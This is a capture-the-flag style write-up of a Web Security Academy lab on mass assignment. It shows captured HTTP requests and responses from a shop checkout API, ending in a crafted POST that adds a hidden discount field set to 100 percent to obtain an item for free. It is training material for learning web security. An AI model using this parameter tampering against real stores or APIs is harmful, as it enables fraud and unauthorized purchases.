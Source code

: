 # Lab - 03 : Exploiting a mass assignment vulnerability

Topic : Exploiting a mass assignment vulnerability

Concept:  There are sometimes some parameters which are default set to most variables. Such as there might be a parameter like `isAdmin` which might be false set to most of the variables, if a patch or put requests let us update this variable then we can gain admin privilege. For this we have to know how to find these vulnerability.

End Goal : Exploiting a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket.**

Analysis : 

- Reconned the whole app for the api usage and found the request where the api was called.
- The found request → same URL but different METHOD
- First request :
    
    ```
    GET /api/checkout HTTP/2
    Host: 0a88005b03947edc82a08ee50046001b.web-security-academy.net
    Cookie: session=RYcg7fatpvWSV8CzsMa1ZqbiuJDb0nTw
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Referer: https://0a88005b03947edc82a08ee50046001b.web-security-academy.net/cart
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Priority: u=4
    Te: trailers
    ```
    
    - Response
    
    ```json
    HTTP/2 200 OK
    Content-Type: application/json; charset=utf-8
    X-Content-Type-Options: nosniff
    X-Frame-Options: SAMEORIGIN
    Content-Length: 153
    
    {"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
    ```
    
- 2nd Request

```json
POST /api/checkout HTTP/2
Host: 0a88005b03947edc82a08ee50046001b.web-security-academy.net
Cookie: session=RYcg7fatpvWSV8CzsMa1ZqbiuJDb0nTw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a88005b03947edc82a08ee50046001b.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 53
Origin: https://0a88005b03947edc82a08ee50046001b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"chosen_products":[{"product_id":"1","quantity":1}]}
```

- Response
    
    ```json
    HTTP/2 201 Created
    Location: /cart?err=INSUFFICIENT_FUNDS
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    ```
    
- Let’s check options for this request
- Here we can compare the variables from the get request with the post request
- We see that a lot of variables are not given in the post request. Let us fudge them and send along with the post request. If it takes it input then, it works.

```json
Total parameters : 
{
	"chosen_discount":{"percentage":0},
	"chosen_products":[
		{
		"product_id":"1",
		"name":"Lightweight \"l33t\" Leather Jacket",
		"quantity":1,
		"item_price":133700
		}
	]
}
```

```json
Crafted parameters : 

{
"chosen_products":
	[
		{"product_id":"1","quantity":1}
	]
}
```

- The item price parameter was unfuzzable and did not have any effect. So, i looked at the discount percentage parameter and put that to 100 and it worked.
- Final request :

```json
POST /api/checkout HTTP/2
Host: 0aa7001503a95bd180b15824000b00e8.web-security-academy.net
Cookie: session=9Gl5Zwd6MhHYbOlBZr2YO27kNdhMFXIt
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa7001503a95bd180b15824000b00e8.web-security-academy.net/cart
Content-Type: text/plain;charset=UTF-8
Content-Length: 90
Origin: https://0aa7001503a95bd180b15824000b00e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","quantity":3}]}
```

- This solves the lab